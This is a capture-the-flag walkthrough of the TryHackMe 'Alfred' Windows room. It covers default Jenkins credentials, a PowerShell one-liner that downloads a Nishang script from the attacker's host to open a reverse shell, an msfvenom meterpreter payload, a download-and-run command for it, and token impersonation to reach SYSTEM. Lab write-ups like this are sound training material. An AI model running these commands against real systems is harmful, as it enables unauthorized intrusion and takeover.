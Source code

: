 ```yaml
---
title: "TryHackMe - Alfred"
author: Nasrallah
description: ""
date: 2022-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy, jenkins, powershell, metasploit, msfvenom, meterpreter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Alfred](https://tryhackme.com/room/alfred) from [TryHackMe](https://tryhackme.com). Easy windows machine running Jenkins in a webserver. We use some known credentials to login to Jenkins and run some command that would give us a reverse shell. After that we generate a payload using msfvenom and upload it to the target to get a meterpreter shell that would make it easy to escalate our privileges on the machine.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.209.108
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
|_ssl-date: 2022-06-03T08:50:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-06-02T08:38:17
|_Not valid after:  2022-12-02T08:38:17
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We got 3 ports open, webserver on port 80, probably rdp on port 3389, and another webserver on port 8080.

### Web

Let's go to the webserver on port 80.

![](/assets/img/tryhackme/alfred/1.png)

There is a picture of Bruce Wayne and some text, nothing really interesting.

Let's go to port 8080.

![](/assets/img/tryhackme/alfred/2.png)

It's Jenkins login page. If we some of the most used credentials, we'll be able to login successfully.

![](/assets/img/tryhackme/alfred/3.png)

## **Foothold**

We need to find a place where we can execute command. To do that, go to `project`.

![](/assets/img/tryhackme/alfred/4.png)

Now go to `configure`.

![](/assets/img/tryhackme/alfred/5.png)

Great! We found a place to execute windows batch commands. Time for a reverse shell.

First, we need to download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and serve it with a webserver, we can use python for that: `sudo python3 -m http.server 80`.

After that, we need to set up a listener to receive the shell: `nc -lvnp 9001`

![](/assets/img/tryhackme/alfred/6.png)

Now we need to put the following powershell command in place and run it.

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.31.131:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.31.131 -Port 9001
```

>Change the ip addresses to yours(tun0)

![](/assets/img/tryhackme/alfred/21.png)


After entering the command, press `save`. Then go to `Build now`

![](/assets/img/tryhackme/alfred/20.png)

Now if we go to our listener, we should see that we have received a shell.

![](/assets/img/tryhackme/alfred/7.png)


## **Privilege Escalation**

For this part, we can upgrade our shell to meterpreter in order to easily escalate our privileges.

First, let's create a payload using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.31.131 LPORT=1234 -f exe -o shell.exe
```

>Don't forget to change the ip address.

![](/assets/img/tryhackme/alfred/8.png)

Good, let's fire up metasploit and setup a handler listener.

![](/assets/img/tryhackme/alfred/9.png)

We need to set the options to the same ones we used when we created the payload with `msfvenom`

Great! Now in the same directory where we created the exploit, set up an http server like the one we did before:`sudo python3 -m http.server 80` so that we can upload it to the target.

After that we need to execute the following powershell command in the shell we just got to upload the exploit.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.31.131/shell.exe','shell.exe')"
```

![](/assets/img/tryhackme/alfred/23.png)

Great! We have uploaded the exploit successfully, now execute it with the command `Start-Process "shell.exe"`

![](/assets/img/tryhackme/alfred/10.png)

Now if we go to our listener on metasploit, we can see that we received a meterpreter shell.

![](/assets/img/tryhackme/alfred/11.png)

Now to have system privileges, which is the higher ranking in a windows machine, we execute the command `getsystem`.

![](/assets/img/tryhackme/alfred/12.png)

And we got it, but we need to understand how that worked. To do that, first drop a shell using the command `shell`, and then execute `whoami /priv`

> Do that as the user alfred not authority\system.

![](/assets/img/tryhackme/alfred/13.png)

With that command, we can see the different tokens we have. One of the tokens we have is `SeImpersonatePrivilege`. To abuse that, let's load a module named `incognito` and run the command `impersonate_token "BUILTIN\Administrators"`

![](/assets/img/tryhackme/alfred/14.png)

We got system privileges. Now let's go to the directory where the flag is and read it.

![](/assets/img/tryhackme/alfred/15.png)

We can't, even though we have the higher privileged token. To solve that, we need to change the process we currently in to a process that has system privilege.

First, list the processes with `ps`.

![](/assets/img/tryhackme/alfred/16.png)

We choose the **services** process, now use the command `migrate` with the process number of **services**.

![](/assets/img/tryhackme/alfred/17.png)

And we that, we have successfully rooted **Alfred**.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1